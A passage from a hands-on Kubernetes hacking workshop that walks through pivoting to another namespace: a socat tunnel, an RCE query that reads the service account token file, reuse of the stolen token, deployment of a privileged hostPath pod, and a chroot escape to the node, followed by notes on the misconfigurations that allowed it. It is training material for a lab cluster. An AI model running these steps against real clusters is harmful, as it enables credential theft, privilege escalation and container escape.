



# Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 6: Escaping our Namespace](#part-6--escaping-our-namespace)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 6: Escaping our Namespace

Now that we know about another port 5000 listener in some other Namespace, we will use some simple TCP
tunneling to attack it.

1. In the exec shell still open from the prior step, we will use the `socat` tool to create a tunnel
   from it toward this new listener: `socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000` _(replace `10.244.162.132` with the IP from your nmap results)_
   ```shell
   root@snyky:~# socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000
   ```

2. In a new shell, set your Kubernetes config variable and create a port-forward into the snyky pod:
   ```shell
   $ export KUBECONFIG=demokubeconfig
   $ kubectl port-forward snyky 5001 -n secure
   Forwarding from 127.0.0.1:5001 -> 5001
   Forwarding from [::1]:5001 -> 5001
   ```
   With these tunnels in place, any TCP traffic connecting to your local machine at port 5001 will be
   forwarded to the snyky pod at port 5001.  Then, the `socat` process will forward that traffic from
   the snyky pod to the mystery service on port 5000.


3. Open http://localhost:5001 in your browser...
   
   The same app _is_ running there! (FYI: we didn't need the `/webadmin` context because we aren't traversing
   an ingress)


4. Let's see if this copy of the application has the RCE vulnerability by looking for it's token: http://localhost:5001?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   
   Yes it is and now we have another token we can experiment with! 😈


5. Go ahead and kill the port-forward, close that terminal and kill socat processes and exit the exec session from the snyky
   pod. We won't be needing them anymore.


6. Open the `demokubeconfig` file in an editor comment out the existing `token:` and insert a new line with the token in
   your browser from the new server.
    ```yaml
    ...
    users:
    - name: snyk
      user:
        token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    ```
   Save and exit your editor.


7. With this new token in place, let's try to list pods in the `default` Namespace again: `kubectl get pods`
    ```shell
    $ kubectl get pod
    NAME                        READY   STATUS    RESTARTS   AGE
    webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
    ```
   Well look at that! It appears that someone deployed a copy of the application into the `default` Namespace and, thus,
   we now have a `default` ServiceAccount token at our disposal!

8. We should see what permissions this new token gives us with `kubectl auth can-i --list --token=[paste token here]`
    ```shell
    $ kubectl auth can-i --list --token=eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ...
    Resources                                       Non-Resource URLs                     Resource Names   Verbs
    *.*                                             []                                    []               [create get watch list patch delete deletecollection update]
    ```
   Well, isn't that nice!  Full access to all (`*.*`) resources in the default Namespace! This happens more often that
   you might think because most developers only write RBAC restrictions for resources in the Namespaces their applications
   live in, leaving the `default` to me managed by someone else. Unfortunaly—for this cluster—the default RBAC for the `default` 
   `ServiceAccount` is wide open!

9. Now we can try to deploy a pod in the `default` Namespace; let's go ahead and try that
   [privileged Pod](../demo_yamls/nonroot_priv.yaml) again and see if it works:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   
   $ kubectl get pods
   NAME                        READY   STATUS    RESTARTS   AGE
   nonroot-priv                1/1     Running   0          5s
   webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
   ```
   That appears to have worked which indicates that PSP restriction in the `default` Namespace are relaxed/non-existant.


10. Exec into this pod and see what we can do: `kubectl exec -it nonroot-priv -- bash`
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@nonroot-priv:/$ sudo su
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ssl    0:00 /usr/local/bin/gotty --config /opt/gotty.conf /bin/bash
        17 pts/0    Ss     0:00 bash
        30 pts/0    D+     0:00 sudo su
        31 pts/1    Ss     0:00 sudo su
        32 pts/1    S      0:00 su
        33 pts/1    S      0:00 bash
        35 pts/1    R+     0:00 ps ax
   ```
   Looking good so far, but if you look at the manifest for this pod, we are mounting a host volume at path `/chroot`:
   ```yaml
   ...
       volumeMounts:
         - mountPath: /chroot
           name: host
       securityContext:
         runAsUser: 999
         privileged: true
     volumes:
     - name: host
       hostPath:
         path: /
         type: Directory
   ```
   ... so let's `chroot /chroot` and see what we get...
   ```shell
   root@nonroot-priv:/# chroot /chroot
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ss     0:00 /sbin/init
        83 ?        S<s    0:01 /lib/systemd/systemd-journald
        95 ?        Ssl    6:47 /usr/local/bin/containerd
       167 ?        Ssl    8:32 /usr/bin/kubelet --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.conf --conf
       250 ?        Sl     1:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id f6e4526e4b313c3cb9c6dbbb1d0c8050e10611a8f567d6148485acda80b2713a -
       269 ?        Ss     0:00 /pause
       500 ?        Sl     0:09 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 18aadb6e8ef7b60069841da12737e66bea74891089126081d2208d07f5a92c42 -
       519 ?        Ss     0:00 /pause
       549 ?        Ssl    0:11 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --hostname-override=kind-worker
       994 ?        Ss     0:00 /usr/local/bin/runsvdir -P /etc/service/enabled
    ...
   ```
   Those are the processes running on the host.  We've effectively escaped this container by mounting the host `/` volume
   into the container and `chroot`ing to it. _(In case you weren't aware, `ps` uses the `/proc` filesystem for its PID info)_

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSP configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods
* The `secure` Namespace PSP is **not** configured with `allowPrivilegeEscalation:false` so SUID binaries are effective
* Another application is listening at port 5000 and it is **not** in the `secure` Namespace. (We know
  it is not in the same Namespace because we would have seen it via `kubectl get`.)  We don't know what
  Namespace it is in yet.
* Apparently NetworkPolicy is either not deployed or is far too loose to allow that scan to find listeners
  outside the Namespace.
 
#### New info:
* The new IP address is another copy of the vulnerable application
* We've found another ServiceAccount token from this copy of the application 
* This copy of the application is running in the `default` Namespace
* The ServiceAccount and Pod configurations in the `default` Namespace is using the default `automountServiceAccountToken` setting of `true`
* RBAC is wide open for this ServiceAccount in the `default` Namespace
* PSPs are lax/non-existant in the `default` Namespace, allowing us to deploy privileged containers that we can easily escape.



#### Timeline of Doom
Updated progress toward total ownership of the target cluster.


## Next step
In the [next step](02g-exploit.md) we cross the finish line by taking over the cluster!
